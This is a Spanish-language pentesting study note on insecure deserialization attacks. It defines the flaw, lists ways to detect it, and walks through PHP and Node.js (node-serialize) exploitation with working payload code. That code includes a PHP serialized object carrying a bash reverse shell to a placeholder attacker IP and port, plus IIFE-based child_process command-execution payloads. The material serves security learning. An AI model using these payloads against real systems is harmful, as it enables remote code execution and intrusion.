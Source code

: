 ---------
- Tags: #OWASP_TOP_10 #vulnerabilidad #hacking #Deserialization #exploiting 
--------------
# Definición

> Los **ataques de deserialización** son amenazas cibernéticas en las que los datos serializados, al ser manipulados, pueden permitir a los atacantes ejecutar código malicioso en una aplicación, revelar información sensible o causar daño al sistema.
> 
> La **serialización** de un objeto es el proceso de convertir un objeto o estructura de datos en una secuencia de **bytes** que puede ser almacenada, transmitida o restaurada en su forma original posteriormente. Esto permite que los objetos se guarden en archivos, se envíen a través de la red o se almacenen en bases de datos de manera eficiente. La serialización es comúnmente utilizada en programación para preservar el estado de objetos y compartir datos entre diferentes aplicaciones o sistemas.
> 
> Para evitar estos ataques, es importante que las aplicaciones validen y autentiquen adecuadamente todos los datos que reciben antes de deserializarlos. También es importante utilizar bibliotecas de serialización y deserialización seguras y actualizar regularmente todas las bibliotecas y componentes de la aplicación para corregir posibles vulnerabilidades.

----------------
# Detección de vulnerabilidad

Para detectar si un servicio es vulnerable a un **ataque de deserialización** podemos probar lo siguiente:

- **Manipulación de datos**: Podemos buscar campos donde los usuarios puedan ingresar datos que podrían estar sujetos a procesos de deserialización, como formularios, campos de cookies o parámetros en **URLs**, para introducir datos modificados cargando archivos serializados maliciosos.

- **Examinación de datos enviados**: Podemos interceptar la petición con un proxy, de manera que si vemos los datos enviados serializados (0:4:"test" por ejemplo) puede ser que sea vulnerable.

- **Observación de respuestas y comportamiento**: Podemos buscar errores específicos relacionados con la deserialización, como **"ClassNotFoundException"** o **"InvalidClassException"**, pudiendo resultar en una posible vulnerabilidad.

---------------
# Explotación 

## PHP

Primeramente, debemos interceptar la petición con [[Burpsuite]], y podemos observar una petición, en la que se está enviando información como la siguiente:

```
obj=0:4:"Test":1:{s:9:"ipAddress";s:14:"192.168.111.45";}
```

Y vemos que es un objeto serializado, donde se indica que el objeto tiene 4 caracteres de longitud (Test), y el objeto tiene dos atributos, el primero un **s**tring de 9 caracteres (ipAddress) y el segundo otro **s**tring de 14 caracteres (192.168.111.45).

Para poder proceder con la explotación sería conveniente y casi necesario haber encontrado el código fuente que gestiona el comportamiento del objeto enviado. 

Suponiendo que cuando se esté tratando a nuestro objeto, se está ejecutando un comando por detrás, podríamos tratar de inyectar los comandos que nos plazca. Para ello, puede ser que exista en el código fuente algún tipo de variable que compruebe que si los datos introducidos son correctos, y si es así que se ejecute la acción correspondiente. Podríamos enfrentarnos a algo parecido a lo siguiente:

``` php
...
class pingTest{
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";

	function validate() {
		if (!$this->isValid) {
			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP)){
				$this->isValid = true;
			}
		}
	}

	public function ping(){
		if ($this->isValid){
			$this->output = shell_exec("ping -c 3 $this->ipAddress");
		}
	}
}
...
```

En este caso la variable mencionada anteriormente sería **isValid**, que comprueba si los datos están correctamente introducidos. Así que podríamos tratar de enviar un objeto serializado de la misma clase, sobrescribiendo la variable **isValid** a true, de manera que podríamos inyectar el comando que nos plazca. Para crear el objeto serializado podemos ejecutar el siguiente script en **php**, que nos devolverá el mismo:

```php
<?php

class pingTest{
	public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/<PUERTO_ATACANTE>'";
	public $isValid = True;
	public $output = "";
}

echo urlencode(serialize(new PingTest))
?>
```

De manera que si enviamos el objeto que nos devuelve el script a través de [[Burpsuite]], y nos ponemos en escucha, obtendremos una [[Reverse shell]].

## Nodejs

Una vez interceptada la petición, y encontrado el campo donde se está realizando la deserialización, podemos proceder con el ataque. Un objeto serializado en **Nodejs** podría ser el siguiente:

```
{"username":"user","country":"spain"}
```

Para serializar algo que le proporcionemos, podemos hacer uso del siguiente script en **nodejs** (node script.js para ejecutar)

```node
var y = {
	rce : function(){
	require('child_process').exec('<COMANDO A EJECUTAR>',function(error,stdout,stderr) { console.log(stdout)});
	},
}
var serialize = require('node-serialize');
console.log("Serialized: \n"+ serialize.serialize(y));
```

Pero esto no se va a ejecutar, nos va a serializar la instrucción.
Hay un concepto, llamado **IIFE** (Immediately Invoked Function Expression), que nos permite hacer la llamada a la instrucción inmediatamente. Para poder hacer uso del **IIFE**, tendremos que poner un () al final de la instrucción, por ejemplo, con el script anterior para que se ejecute el comando que le hayamos proporcionado, podemos modificar el script para que quede de la siguiente manera:

```node
var y = {
	rce : function(){
	require('child_process').exec('<COMANDO A EJECUTAR>',function(error,stdout,stderr) { console.log(stdout)});
	}(),  
}
var serialize = require('node-serialize');
console.log("Serialized: \n"+ serialize.serialize(y));
```

Pero, claro, el comando se va a ejecutar cuando se serialice la instrucción, y nosotros queremos que se ejecute la instrucción cuando se deserialice en el servidor. En el servidor se podría estar ejecutando un script como el siguiente para deserializar la instrucción como el que sigue:

```node
var serialize = require('node-serialize');
var payload = '<DATO_SERIALIZADO>';
serialize.unserialize(payload);
```

En la variable **payload** se recibe el dato que hemos serializado anteriormente (quitando saltos de línea y escapando las comillas), por ejemplo:

```
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}"}
```

De manera que si queremos que se produzca el mencionado **IIFE**, podemos añadir un () justamente antes de las últimas dobles comillas, de forma que quedaría así: 

```
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Y si enviamos dicho objeto, se ejecutaría la instrucción que hemos introducido. 
Para tensar la cosa un poco más arrastrando este concepto, y conseguir una [[Reverse shell]], podemos hacer uso de [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py), que nos crea un [[Payload]] para dicho objetivo. El payload conseguido, habrá que adaptarlo un poco para que quede serializado, de manera que tendremos un dato serializado de la siguiente manera:

```
{"rce":"_$$ND_FUNC$$_function(){<PAYLOAD>}()"}
```

y si lo enviamos como corresponde, y estando en escucha, lo habremos conseguido.

---------------------
# Ejemplos prácticos

- [Máquina Cereal 1](https://www.vulnhub.com/entry/cereal-1,703/) (PHP Deserialization Attack)
- [Opsexc.com](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)(Nodejs Deserialization Attack)